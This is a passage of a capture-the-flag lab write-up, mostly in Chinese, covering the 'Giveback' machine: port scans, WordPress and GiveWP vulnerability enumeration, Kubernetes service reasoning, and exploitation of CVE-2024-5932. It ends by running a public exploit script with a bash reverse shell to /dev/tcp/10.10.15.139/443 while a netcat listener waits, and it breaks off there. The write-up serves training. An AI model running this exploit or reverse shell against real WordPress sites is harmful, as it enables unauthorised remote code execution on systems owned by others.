




## Giveback [0xdf]
<details>
<summary>Nmap</summary>

```
[★]$ sudo nmap -p- -vvv --min-rate 10000 10.129.242.171
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-24 03:16 CDT
Initiating Ping Scan at 03:16
Scanning 10.129.242.171 [4 ports]
Completed Ping Scan at 03:16, 0.02s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:16
Completed Parallel DNS resolution of 1 host. at 03:16, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 03:16
Scanning 10.129.242.171 [65535 ports]
Discovered open port 22/tcp on 10.129.242.171
Discovered open port 80/tcp on 10.129.242.171
Discovered open port 30686/tcp on 10.129.242.171
Completed SYN Stealth Scan at 03:16, 6.35s elapsed (65535 total ports)
Nmap scan report for 10.129.242.171
Host is up, received reset ttl 63 (0.011s latency).
Scanned at 2026-03-24 03:16:20 CDT for 7s
Not shown: 65530 closed tcp ports (reset)
PORT      STATE    SERVICE      REASON
22/tcp    open     ssh          syn-ack ttl 63
80/tcp    open     http         syn-ack ttl 62
6443/tcp  filtered sun-sr-https no-response
10250/tcp filtered unknown      no-response
30686/tcp open     unknown      syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 6.49 seconds
           Raw packets sent: 66231 (2.914MB) | Rcvd: 65540 (2.622MB)

[★]$ nmap -p 22,80,30686 -sCV 10.129.242.171
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-24 03:17 CDT

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 66:f8:9c:58:f4:b8:59:bd:cd:ec:92:24:c3:97:8e:9e (ECDSA)
|_  256 96:31:8a:82:1a:65:9f:0a:a2:6c:ff:4d:44:7c:d3:94 (ED25519)
80/tcp    open  http    nginx 1.28.0
|_http-generator: WordPress 6.8.1
|_http-server-header: nginx/1.28.0
|_http-title: GIVING BACK IS WHAT MATTERS MOST &#8211; OBVI
30686/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Load-Balancing-Endpoint-Weight: 1
|     Date: Tue, 24 Mar 2026 08:17:46 GMT
|     Content-Length: 127
|     "service": {
|     "namespace": "default",
|     "name": "wp-nginx-service"
|     "localEndpoints": 1,
|     "serviceProxyHealthy": true
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Load-Balancing-Endpoint-Weight: 1
|     Date: Tue, 24 Mar 2026 08:17:21 GMT
|     Content-Length: 127
|     "service": {
|     "namespace": "default",
|     "name": "wp-nginx-service"
|     "localEndpoints": 1,
|_    "serviceProxyHealthy": true
```
</details>

#### 根据 OpenSSH 版本，该主机很可能运行的是 Ubuntu 22.04 jammy LTS 系统。nginx 版本与当前 SID（不稳定开发分支）以及将于 2027 年推出的 Debian 14 Forky 版本非常接近。
#### 要到达 80 端口的网络服务器还需要再经过一个跳转：
```
[★]$ sudo lft 10.129.242.171:22
traceroute to 10.129.242.171 (10.129.242.171), 30 hops max, 60 byte packets
 1  10.10.14.1 (10.10.14.1)  8.746 ms  8.604 ms
 2  10.129.242.171 (10.129.242.171)  9.228 ms  9.106 ms
[★]$ sudo lft 10.129.242.171:80
traceroute to 10.129.242.171 (10.129.242.171), 30 hops max, 60 byte packets
 1  10.10.14.1 (10.10.14.1)  8.707 ms  8.705 ms
 2  10.129.242.171 (10.129.242.171)  9.188 ms  9.258 ms
 3  10.129.242.171 (10.129.242.171)  9.142 ms  9.203 ms
[★]$ sudo lft 10.129.242.171:30686
traceroute to 10.129.242.171 (10.129.242.171), 30 hops max, 60 byte packets
 1  10.10.14.1 (10.10.14.1)  8.603 ms  8.532 ms
 2  10.129.242.171 (10.129.242.171)  9.109 ms  9.177 ms
```
#### 额外跳转到 80 端口表明网络流量是通过容器网络进行路由的，而 SSH 和 30686 则由主机直接处理。63 的 TTL 值与 Linux 系统一跳之遥的预期 TTL 值相符。
### Website - TCP 80
#### [1]在'DONATION FAILED' 
#### 在搜索栏中输入常见的词汇如“a”和“the”后，会进入另一个页面，该页面的地址为 /sample-page/ ：
```
Team, as u know, we’re going to start this NFP soon.
But we need to make it scalable and we need to use ‘new technologies’ – while saying goodbye to licensing that we can no longer afford.

Once we have proper funding we’ll move out into EKS.

Stay clean, stay focused-

-babywyrm
```
#### 另一个，‘Donation Station'
```
Shout it from the rooftops.
http://giveback.htb/donations/the-things-we-need/
```
```
[★]$ echo '10.129.242.171 giveback.htb' | sudo tee -a /etc/hosts
10.129.242.171 giveback.htb
```
#### 点击http://giveback.htb/donations/the-things-we-need/ 就会出现交易的页面
#### [2]在‘DONOR DASHBOARD
#### 此外还有一个“捐赠者仪表盘”链接，点击后会进入一个需要登录的页面
### Tech Stack
#### HTTP 响应头显示的是 nginx，但同时也提到了“wp”，这通常意味着是 WordPress：
```
[★]$ curl -I http://10.129.242.171:80
HTTP/1.1 200 OK
Server: nginx/1.28.0
Date: Wed, 25 Mar 2026 06:55:52 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Link: <http://10.129.242.171/wp-json/>; rel="https://api.w.org/"
Vary: Accept-Encoding
```
#### 该源代码中有大量的“wp”字符串，包括 wp-includes 路径（这是典型的 WordPress）
#### 404的页面：

#### 工具Wappalyzer显示WordPress 6.8.1

### WPScan
#### 需要注册https://wpscan.com/register/拿个token
```
[★]$ sudo wpscan --url http://giveback.htb -e ap,u --api-token cDAs***************************************
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
```
<details>
<summary>展开</summary>

```
[+] URL: http://giveback.htb/ [10.129.242.171]
[+] Started: Wed Mar 25 02:40:03 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.28.0
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://giveback.htb/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://giveback.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 6.8.1 identified (Insecure, released on 2025-04-30).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://giveback.htb/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=6.8.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://giveback.htb/, Match: 'WordPress 6.8.1'
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: WP < 6.8.3 - Author+ DOM Stored XSS
 |     Fixed in: 6.8.3
 |     References:
 |      - https://wpscan.com/vulnerability/c4616b57-770f-4c40-93f8-29571c80330a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58674
 |      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpress-6-8-2-cross-site-scripting-xss-vulnerability
 |      -  https://wordpress.org/news/2025/09/wordpress-6-8-3-release/
 |
 | [!] Title: WP < 6.8.3 - Contributor+ Sensitive Data Disclosure
 |     Fixed in: 6.8.3
 |     References:
 |      - https://wpscan.com/vulnerability/1e2dad30-dd95-4142-903b-4d5c580eaad2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58246
 |      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpress-6-8-2-sensitive-data-exposure-vulnerability
 |      - https://wordpress.org/news/2025/09/wordpress-6-8-3-release/

[+] WordPress theme in use: bizberg
 | Location: http://giveback.htb/wp-content/themes/bizberg/
 | Latest Version: 4.2.9.79 (up to date)
 | Last Updated: 2024-06-09T00:00:00.000Z
 | Readme: http://giveback.htb/wp-content/themes/bizberg/readme.txt
 | Style URL: http://giveback.htb/wp-content/themes/bizberg/style.css?ver=6.8.1
 | Style Name: Bizberg
 | Style URI: https://bizbergthemes.com/downloads/bizberg-lite/
 | Description: Bizberg is a perfect theme for your business, corporate, restaurant, ingo, ngo, environment, nature,...
 | Author: Bizberg Themes
 | Author URI: https://bizbergthemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 4.2.9.79 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://giveback.htb/wp-content/themes/bizberg/style.css?ver=6.8.1, Match: 'Version: 4.2.9.79'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] *
 | Location: http://giveback.htb/wp-content/plugins/*/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | The version could not be determined.

[+] give
 | Location: http://giveback.htb/wp-content/plugins/give/
 | Last Updated: 2026-03-11T18:43:00.000Z
 | [!] The version is out of date, the latest version is 4.14.3
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By:
 |  Urls In 404 Page (Passive Detection)
 |  Meta Tag (Passive Detection)
 |  Javascript Var (Passive Detection)
 |
 | [!] 22 vulnerabilities identified:
 |
 | [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 3.14.2 - Missing Authorization to Authenticated (Subscriber+) Limited File Deletion
 |     Fixed in: 3.14.2
 |     References:
 |      - https://wpscan.com/vulnerability/528b861e-64bf-4c59-ac58-9240db99ef96
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-5941
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/824ec2ba-b701-46e9-b237-53cd7d0e46da
 |
 | [!] Title: GiveWP < 3.14.2 - Unauthenticated PHP Object Injection to RCE
 |     Fixed in: 3.14.2
 |     References:
 |      - https://wpscan.com/vulnerability/fdf7a98b-8205-4a29-b830-c36e1e46d990
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-5932
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/93e2d007-8157-42c5-92ad-704dc80749a3
 |
 | [!] Title: GiveWP < 3.16.0 - Unauthenticated Full Path Disclosure
 |     Fixed in: 3.16.0
 |     References:
 |      - https://wpscan.com/vulnerability/6ff11e50-188e-4191-be12-ab4bde9b6d27
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-6551
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/2a13ce09-b312-4186-b0e2-63065c47f15d
 |
 | [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 3.16.2 - Authenticated (GiveWP Manager+) SQL Injection via order Parameter
 |     Fixed in: 3.16.2
 |     References:
 |      - https://wpscan.com/vulnerability/aed98bed-b6ed-4282-a20e-995515fd43a1
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9130
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/4a3cae01-620d-405e-baf6-2d66a5b429b3
 |
 | [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 3.16.2 - Unauthenticated PHP Object Injection
 |     Fixed in: 3.16.2
 |     References:
 |      - https://wpscan.com/vulnerability/c1807282-5f15-4b21-81b6-dcb8b03618bd
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-8353
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/c4c530fa-eaf4-4721-bfb6-9fc06d7f343c
 |
 | [!] Title: GiveWP < 3.16.0 - Cross-Site Request Forgery
 |     Fixed in: 3.16.0
 |     References:
 |      - https://wpscan.com/vulnerability/582c6a46-486e-41ca-9c45-96dfe8b8ddbb
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-47315
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/7ce9bac7-60bb-4880-9e37-4d71f02ee941
 |
 | [!] Title: GiveWP < 3.16.4 - Unauthenticated PHP Object Injection to Remote Code Execution
 |     Fixed in: 3.16.4
 |     References:
 |      - https://wpscan.com/vulnerability/793bdc97-69eb-43c3-aab0-c86a76285f36
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9634
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/b8eb3aa9-fe60-48b6-aa24-7873dd68b47e
 |
 | [!] Title: Give < 3.19.0 - Reflected XSS
 |     Fixed in: 3.19.0
 |     References:
 |      - https://wpscan.com/vulnerability/5f196294-5ba9-45b6-a27c-ab1702cc001f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-11921
 |
 | [!] Title: GiveWP < 3.19.3 - Unauthenticated PHP Object Injection
 |     Fixed in: 3.19.3
 |     References:
 |      - https://wpscan.com/vulnerability/571542c5-9f62-4e38-baee-6bbe02eec4af
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-12877
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/b2143edf-5423-4e79-8638-a5b98490d292
 |
 | [!] Title: GiveWP < 3.19.4 - Unauthenticated PHP Object Injection
 |     Fixed in: 3.19.4
 |     References:
 |      - https://wpscan.com/vulnerability/82afc2f7-948b-495e-8ec2-4cd7bbfe1c61
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-22777
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/06a7ff0b-ec6b-490c-9bb0-fbb5c1c337c4
 |
 | [!] Title: GiveWP < 3.20.0 - Unauthenticated PHP Object Injection
 |     Fixed in: 3.20.0
 |     References:
 |      - https://wpscan.com/vulnerability/e27044bd-daab-47e6-b399-de94c45885c5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-0912
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/8a8ae1b0-e9a0-4179-970b-dbcb0642547c
 |
 | [!] Title: Give < 3.22.1 - Missing Authorization to Unauthenticated Arbitrary Earning Reports Disclosure via give_reports_earnings Function
 |     Fixed in: 3.22.1
 |     References:
 |      - https://wpscan.com/vulnerability/ebe88626-2127-4021-aa8e-f2f47e12ad4f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-2025
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/40595943-121d-4492-a0ed-f2de1bd99fda
 |
 | [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 3.22.2 - Authenticated (Subscriber+) Sensitive Information Exposure
 |     Fixed in: 3.22.2
 |     References:
 |      - https://wpscan.com/vulnerability/b331a81b-b7cc-4e0a-a088-26468a835cc5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-2331
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/b4d9acfb-bb9d-4b00-b439-c7ccea751f8d
 |
 | [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 4.3.1 - Missing Authorization To Authenticated (Contributor+) Campaign Data View And Modification
 |     Fixed in: 4.3.1
 |     References:
 |      - https://wpscan.com/vulnerability/f819ea85-bf28-4e8c-b72b-59741e7e9cee
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-4571
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/8f03b4ef-e877-430e-a440-3af0feca818c
 |
 | [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 4.6.0 - Authenticated (GiveWP worker+) Stored Cross-Site Scripting
 |     Fixed in: 4.6.0
 |     References:
 |      - https://wpscan.com/vulnerability/fda8eaea-ca20-417a-896b-49c1fa0a1c07
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-7205
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/39e501d8-88a0-4625-aeb0-aa33fc89a8d4
 |
 | [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 4.6.1 - Unauthenticated Donor Data Exposure
 |     Fixed in: 4.6.1
 |     References:
 |      - https://wpscan.com/vulnerability/4739fdb8-9444-44b9-8e98-7a299e6fe186
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-8620
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/6dc7c5a6-513e-4aa8-9538-0ac6fb37c867
 |
 | [!] Title: GiveWP < 4.6.1 - Missing Authorization to Donation Update
 |     Fixed in: 4.6.1
 |     References:
 |      - https://wpscan.com/vulnerability/bdfb968d-df2b-43ed-9a9c-f9b15d8457f3
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-7221
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/8766608e-df72-4b9d-a301-a50c64fadc9a
 |
 | [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 4.10.1 - Missing Authorization to Unauthenticated Forms-Campaign Association
 |     Fixed in: 4.10.1
 |     References:
 |      - https://wpscan.com/vulnerability/5dccab73-e06f-4c01-837b-eddf42ea789d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-11228
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/ddf9a043-5eb6-46fd-88c2-0f5a04f73fc9
 |
 | [!] Title: GiveWP < 4.10.1 - Unauthenticated Forms and Campaigns Disclosure
 |     Fixed in: 4.10.1
 |     References:
 |      - https://wpscan.com/vulnerability/e7a291a5-3846-42e7-b4f2-7b2383326d4c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-11227
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/54db1807-69ff-445c-9e02-9abce9fd3940
 |
 | [!] Title: GiveWP < 4.13.1 - Unauthenticated Stored XSS via 'name'
 |     Fixed in: 4.13.1
 |     References:
 |      - https://wpscan.com/vulnerability/c03133b5-80f0-4d70-ad22-5dbd7e290031
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-13206
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/95823720-e1dc-46c1-887b-ffd877b2fbe5
 |
 | [!] Title: GiveWP < 4.13.2 - Cross-Site Request Forgery
 |     Fixed in: 4.13.2
 |     References:
 |      - https://wpscan.com/vulnerability/c7ee6f8c-5b2e-4074-9334-25ceaecc664d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-67467
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/e6a7ec29-6dc6-4c73-8cc4-4aa4da79941e
 |
 | [!] Title: GiveWP < 4.13.2 - Unauthenticated Arbitrary Shortcode Execution
 |     Fixed in: 4.13.2
 |     References:
 |      - https://wpscan.com/vulnerability/3d8f4752-888f-45e3-8232-ca65078bdc98
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-66533
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/b9860e0e-e330-42fc-8a74-336ceb787f39
 |
 | Version: 3.14.0 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://giveback.htb/wp-content/plugins/give/assets/dist/css/give.css?ver=3.14.0
 | Confirmed By:
 |  Meta Tag (Passive Detection)
 |   - http://giveback.htb/, Match: 'Give v3.14.0'
 |  Javascript Var (Passive Detection)
 |   - http://giveback.htb/, Match: '"1","give_version":"3.14.0","magnific_options"'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:03 <==> (10 / 10) 100.00% Time: 00:00:03

[i] User(s) Identified:

[+] user
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://giveback.htb/wp-json/wp/v2/users/?per_page=100&page=1
 |  Oembed API - Author URL (Aggressive Detection)
 |   - http://giveback.htb/wp-json/oembed/1.0/embed?url=http://giveback.htb/&format=json
 |  Author Sitemap (Aggressive Detection)
 |   - http://giveback.htb/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 4
 | Requests Remaining: 21

[+] Finished: Wed Mar 25 02:40:18 2026
[+] Requests Done: 64
[+] Cached Requests: 9
[+] Data Sent: 16.814 KB
[+] Data Received: 523.745 KB
[+] Memory used: 245.93 MB
[+] Elapsed time: 00:00:15
```
</details>

#### 这里有很多内容，包括 WP 版本中的 2 个漏洞以及 GiveWP 中的 22 个漏洞！浏览这些漏洞，最有趣的是：
```
[!] Title: GiveWP < 3.14.2 - Unauthenticated PHP Object Injection to RCE
 |     Fixed in: 3.14.2
 |     References:
 |      - https://wpscan.com/vulnerability/fdf7a98b-8205-4a29-b830-c36e1e46d990
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-5932
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/93e2d007-8157-42c5-92ad-704dc80749a3
```
### Web API - TCP 30686
#### 此 URL 返回有关“wp-nginx-service”的 JSON 数据：

```
[★]$ curl -I http://10.129.242.171:30686
HTTP/1.1 200 OK
Content-Type: application/json
X-Content-Type-Options: nosniff
X-Load-Balancing-Endpoint-Weight: 1
Date: Wed, 25 Mar 2026 08:06:46 GMT
Content-Length: 127
```
```
X-Load-Balancing-Endpoint-Weight是Google Cloud External Network Load Balancing使用的自定义 HTTP 响应标头，但 Cilium（一个 K8s 网络插件）也使用它。

综上所述，这似乎是一个 Kubernetes 服务代理，它基于以下原理暴露了一个名为“wp-nginx-service”的服务：

JSON 响应本身包含 Kubernetes 特有的字段：
“namespace”: “default”  - Kubernetes 将资源组织到命名空间中
带有名称和命名空间的“service”——这是 Kubernetes 服务识别的方式。
“localEndpoints”/“serviceProxyHealthy”——这些是Cilium健康代理术语。
端口 30686 属于 Kubernetes NodePort 范围 (30000-32767)，这是 K8s 用于向外部暴露服务的默认范围。
标题 X-Load-Balanced-Endpoint-Weight 是 Cilium 的特征。
服务名称 wp-nginx-service 遵循 Kubernetes 命名约定。
```
### Shell in WordPress K8 Pod
```
CVE-2024-5932 背景
NIST对 CVE-2024-5932 的描述如下：

WordPress 的 GiveWP – 捐赠插件和筹款平台插件存在 PHP 对象注入漏洞，该漏洞存在于 3.14.1 及更早版本中，攻击者可通过反序列化“give_title”参数中不受信任的输入来利用此漏洞。这使得未经身份验证的攻击者能够注入 PHP 对象。此外，该漏洞还利用了 POP 链，攻击者可以远程执行代码并删除任意文件。

EQSTLab 提供了一个不错的漏洞概念验证 (POC) 。它的结构有点过于复杂，但基本原理是从页面获取一些数据，然后使用序列化的 PHP 对象发出请求。
```
#### 将克隆该仓库，并将元数据添加到脚本中，以便它uv可以运行和管理虚拟环境：
https://github.com/EQSTLab/CVE-2024-5932
```
[★]$ git clone https://github.com/EQSTLab/CVE-2024-5932.git
[★]$ cd CVE-2024-5932
[~/CVE-2024-5932][★]$ ls
CVE-2024-5932.py  CVE-2024-5932-rce.py  PoC.php  README.md  requirements.txt
[~/CVE-2024-5932][★]$ pip install -r requirements.txt
[~/CVE-2024-5932][★]$ python3 CVE-2024-5932-rce.py
                                                                                
 Usage: CVE-2024-5932-rce.py [OPTIONS]                                          
                                                                                
 Try 'CVE-2024-5932-rce.py --help' for help                                     
╭─ Error ──────────────────────────────────────────────────────────────────────╮
│ Missing option '-u' / '--url'.                                               │
╰──────────────────────────────────────────────────────────────────────────────╯              
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...

```
```
[★]$ python3 CVE-2024-5932-rce.py --url http://giveback.htb/donations/the-things-we-need/ --cmd 'bash -c "bash -i >& /dev/tcp/10.10.15.139/443 0>&1"'
<SNIP>
[\] Exploit loading, please wait...
[+] Requested Data: 
